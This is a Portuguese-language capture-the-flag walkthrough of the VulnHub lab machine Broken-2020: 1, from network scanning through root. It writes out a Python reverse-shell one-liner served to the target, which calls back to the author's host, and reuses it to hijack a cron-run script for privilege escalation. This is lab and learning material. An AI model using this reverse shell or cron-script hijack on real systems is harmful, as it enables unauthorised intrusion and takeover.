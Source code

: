 ## Broken-2020: 1

- Link para download: https://www.vulnhub.com/entry/broken-2020-1,470/
- Nível: _beginner for user flag and intermediate for root flag_.

1) Máquina importada no VirtualBox, executo o _arp-scan_ para ver o endereço IP:
```
root@parrot:~# arp-scan --interface=eth0 192.168.56.0/24
Interface: eth0, type: EN10MB, MAC: 08:00:27:79:a6:a0, IPv4: 192.168.56.105
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:00       (Unknown: locally administered)
192.168.56.100  08:00:27:7c:9f:5d       PCS Systemtechnik GmbH
192.168.56.104  08:00:27:3d:f6:30       PCS Systemtechnik GmbH

7 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 1.975 seconds (129.62 hosts/sec). 3 responded
```
Está rodando no endereço de final **104**.

2) Rodo o _nmap_ para verificar as portas e serviços:
```
root@parrot:~# nmap -p- -sV -sC -T5 -A -oN nmap_broken 192.168.56.104
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-15 14:22 -03
Nmap scan report for broken (192.168.56.104)
Host is up (0.00046s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 7e:f3:33:8c:be:0c:ed:d7:0e:c6:67:cc:73:bf:c0:ab (RSA)
|   256 ee:ed:74:02:0d:3f:7d:6d:45:aa:ff:f3:3a:d0:1a:d9 (ECDSA)
|_  256 d1:18:a9:ef:7f:b6:c8:a9:30:52:c8:e6:b6:ec:64:80 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: hacked
MAC Address: 08:00:27:3D:F6:30 (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager 5.2-5644 (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms broken (192.168.56.104)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.70 seconds
```

Duas portas comuns em CTF's, 22 rodando ssh e a 80 um serviço web. De pronto identifico que é uma versão bem recente do _OpenSSH_, não lembro de ter lido nada a respeito de nenhuma falha relevante de segurança, parto para o serviço web.

3) Com o intuito de identificar as URL's que estão executando sob o Apache, executo o _gobuster_:
```
root@parrot:~# gobuster dir -u http://192.168.56.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_broken
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.104
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/15 14:26:36 Starting gobuster
===============================================================
/images (Status: 301)
/cms (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
===============================================================
2020/08/15 14:27:49 Finished
```
Checo o que está respondendo no contexto _/cms_. Tem um botão, eu clico e... Curioso testo uma possível abertura para **Path Traversal** (https://owasp.org/www-community/attacks/Path_Traversal) ou **Command Injection** (https://owasp.org/www-community/attacks/Command_Injection) e recebo a primeira flag (nada mais interessante por aqui).

4) Executo novamente o gobuster a partir de _/cms_:
```
root@parrot:~# gobuster dir -u http://192.168.56.104/cms -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_broken_cms
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.104/cms
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/15 14:30:30 Starting gobuster
===============================================================
/cc (Status: 301)
===============================================================
2020/08/15 14:31:34 Finished
===============================================================
```
Checando o novo contexto me deparo com a seguinte página:

[Link](https://imgur.com/caXv3oO) 

Hum, será que podemos hackear qualquer servidor passando IP/porta? Vamos testar, executo um listener via netcat, coloco meu endereço IP e a porta que estou executando e clico em 'hack':
```
root@parrot:~# nc -nlvp 31337
listening on [any] 31337 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.104] 50500
GET /5eeea87977793dc143b995f6a104d62d.sh HTTP/1.0
Host: 192.168.56.105:31337
Connection: close
```
Interessante, ele tentou um GET no meu endereço buscando esse .sh. Bom, o que podemos fazer? Vamos reproduzir o que ele busca, crio um '5eeea87977793dc143b995f6a104d62d.sh' com um shell reverso:
```
root@parrot:/tmp/broken# cat 5eeea87977793dc143b995f6a104d62d.sh
#!/bin/bash

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.105",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Subo um servidor web via python para ele buscar o .sh e mantenho um listener netcat com a porta que adicionei na linha do shell reverso. Clico novamente em 'hack' e:
```
root@parrot:~# nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.104] 59902
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/html/cms/cc
```
Estou dentro! Agora vamos continuar caçando.

5) Vou ao /home e encontro o diretório da alice, lá consigo mais uma flag. Lá também tem uma nota com o seguinte conteúdo:
```
Alice,

Please do not install TrustMeCMS, I need check the source before

PS: I created a script to clear apache log during the tests

root
```
Ok senhor root, obrigado pela informação.

6) Ainda na home da alice tem um diretório chamado 'script', dentro dele um script em python e um .log, interessante.

7) Rodo o linpeas.sh e não vejo nada de interessante na saída, ao executar o pspy64 para checar se existe algo agendado, eis que:
```
2020/08/15 00:08:01 CMD: UID=0    PID=23585  | /bin/sh -c sudo -u alice python /home/alice/script/log.py
2020/08/15 00:08:01 CMD: UID=0    PID=23587  | sudo -u alice python /home/alice/script/log.py
```
Bom, acho que a partir daí vou escalar os meus privilégios.

8) Para a minha surpresa ao voltar ao diretório 'script' tenho permissão de gravação, bom, vou substituir o arquivo log.py pelo MEU log.py :)

9) Faço a substituição com o mesmo script que utilizei como shell reverso (organizado com os imports e as outras linhas ordenadas), configuro novamente um listener via netcat e aguardo o agendamento:
```
$ whoami
whoami
alice
```
Ótimo, agora sou a alice rsrs.

10) Agora tenho permissão de acesso a um diretório que antes não conseguia acessar, o 'backup'. A, e tem outra flag lá.

11) Em mais uma nota do senhor root ele diz o seguinte:
```
Alice we have been hacked !

Please put the path of the website backup directory in path.txt, my bot will do the rest

thx

root
```
Agora te peguei! Adiciono o /root no path.txt e pouco tempo depois tenho o diretório do root no backup, lá dentro tem a última flag:
```
Congratulation for the root flag !

     _________
    / ======= \
   / __________\
  | ___________ |
  | | -root-  | |
  | |         | |
  | |_________| |_____________________________________________________________________
  \=____________/                     enjoyed this VM ?                               )
  / """"""""""" \                     I love bitcoin                                 /
 / ::::::::::::: \           1Ba6vFEamUenzrXr4scGQ8QLya7t7zYZ1S                  =D-'
(_________________)
```

Bem divertido, obrigado `EuSecuinfo` pela box.
